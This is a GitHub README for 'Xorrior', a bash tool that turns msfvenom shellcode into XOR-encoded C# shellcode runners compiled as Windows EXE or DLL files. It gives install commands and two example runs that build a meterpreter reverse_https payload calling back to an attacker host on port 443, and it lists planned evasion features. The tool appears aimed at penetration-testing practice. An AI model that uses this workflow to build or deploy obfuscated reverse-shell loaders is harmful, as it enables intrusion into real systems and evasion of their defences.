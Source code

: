 # Xorrior

<img width="744" height="248" alt="image" src="https://github.com/user-attachments/assets/ee2c2cb2-c855-42aa-882c-b22931e65db2" />

Automating XORed Shellcode to Ready-to-Go EXE or DLL

This tool was written in bash to avoid the routine of:

1. Creating shellcode with msfvenom
2. Copying that shellcode into an XOR encoder
3. Copying the output out of the XOR encoder into a C# shellcode runner.

The tool does all of the above in a single bash script and produces file outputs in
 
 * Executable (EXE)
 
 * Dynamic Link Library (DLL)

Note: The tool requires that x86_64-w64-mingw32-g++ is installed.
```r
sudo apt update

sudo apt install g++-mingw-w64-x86-64
```


#### Example Usage: Generating an EXE
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]: 
Output file type: exe or library (dll)? [exe]: 
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 754 bytes
Final size of csharp file: 3863 bytes
[*] Building EXE shellcode runner...
[*] Compiling with mcs...

[+] Success! Generated runner.exe

```


#### Example Usage: Generating a DLL
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]:  
Output file type: exe or library (dll)? [exe]: library
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 806 bytes
Final size of csharp file: 4127 bytes
[*] Building DLL shellcode loader...
[*] Compiling with mcs...
runner_gen.cs(29,17): warning CS0472: The result of comparing value type `System.IntPtr' with null is always `false'
runner_gen.cs(29,30): warning CS0162: Unreachable code detected
Compilation succeeded - 2 warning(s)

[+] Success! Generated runner.dll
[*] DLL Info: Namespace = ReflectiveLoadDll, Class = Class1, Method = runner

```

####  To-Dos
 
 * Build Modularity into the tool to :
     *  accept different encryption and encoding types
     *  accept different C, C# templates for flexibility e.g. including custom evasion etc.
 
 

